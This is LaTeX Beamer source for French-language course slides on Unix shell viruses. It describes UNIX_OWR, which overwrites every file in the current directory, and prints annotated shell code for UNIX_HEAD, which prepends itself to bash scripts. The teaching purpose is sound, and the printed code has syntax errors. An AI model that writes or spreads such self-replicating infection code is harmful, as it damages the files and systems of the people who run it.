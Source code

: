 \documentclass{beamer}
\begin{document}
\begin{frame}
\frametitle{Caractéristiques de \texttt{UNIX\_OWR}}
\begin{itemize}
\item Sa portée est limitée au répertoire courant.
\item Il infecte tous les fichiers (exécutables ou non).
\item Le virus s'écrase lui-même provoquant le message d'erreur
\begin{center}
\texttt{cp : '.\slash v' and 'v' are the same file}
\end{center}
qui pourra éventuellement alerter l'utilisateur.
\item Le virus n'est pas furtif : tous les fichiers infectés ont la même taille.
\end{itemize}
\end{frame}





\subsection{Le virus \texttt{UNIX\_HEAD}}

\begin{frame}[fragile]
\frametitle{Le virus \texttt{UNIX\_HEAD}}

\begin{block}{Le virus \texttt{UNIX\_HEAD}}
\begin{small}
\begin{semiverbatim}
for F in * do  {\color{gray} \# parcours des fichiers }
   do
\alert<2>{      if[ "\$(head -c9 \$F 2 >> /dev/null)" == "\#!/bin/bash"]
         {\color{gray}\# si les 9 premiers caractères sont "\#!/bin/bash"}}
      then
\alert<3>{         HOST=\$(cat \$F | tr '\begin{math}\backslash\end{math}n' \begin{math}\backslash\end{math}xc7))
         {\color{gray}\# copie de la cible dans \$HOST}}
\alert<4>{         head -11 $0 > $F 2> /dev/null
         {\color{gray}\# écrase le fichier cible }
         {\color{gray}\# avec les 11 premières lignes }}
\alert<5>{         echo \$HOST | tr \begin{math}\backslash\end{math}xc7 '\begin{math}\backslash\end{math}n' >> \$F 2> /dev/null
         {\color{gray}\# le contenu du fichier cible est ajouté}
         {\color{gray}\# à la suite du code viral}}
      fi
   done
\end{semiverbatim}
\end{small}
\end{block}
\end{frame}
\end{document}

